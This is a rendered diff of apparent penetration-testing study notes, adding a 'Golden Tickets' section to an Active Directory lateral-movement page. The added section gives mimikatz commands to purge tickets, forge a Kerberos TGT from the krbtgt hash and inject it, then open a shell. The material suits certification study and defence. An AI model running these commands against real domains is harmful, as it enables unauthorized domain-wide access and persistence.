

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Active Directory/Lateral Movement.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Active Directory/Lateral Movement.md
+++ b/Active Directory/Lateral Movement.md
@@ -53,6 +53,18 @@ mimikatz # kerberos::ptt 'C:\ticket.kirbi'
 
 **GOLDEN TICKETS:**
 
+With golden tickets, we can create TGTs for any domain resource that we want, and stating the groups we want. However to execute this attack we need the "krbtgt" domain account NTLM hash/password. Note that this attack is mostly used when you are already Domain Admin rather than trying to become one.
+
+Now, armed with the "krbtgt" NTLM hash, we can proceed and craft our golden ticket with mimikatz:
+
+```
+mimikatz # kerberos::purge
+
+mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:<our_sid_without_the_rid_part> /krbtgt:<ntlm_hash_of_krbtgt> /ptt
+(mimikatz by default will assing us the RID of 500, however we can set a custom one via the "/id" parameter)
+
+mimikatz # misc::cmd -> launcing a new cmd with our new TGT
+```
 
 **SILVER TICKETS:**
 
````
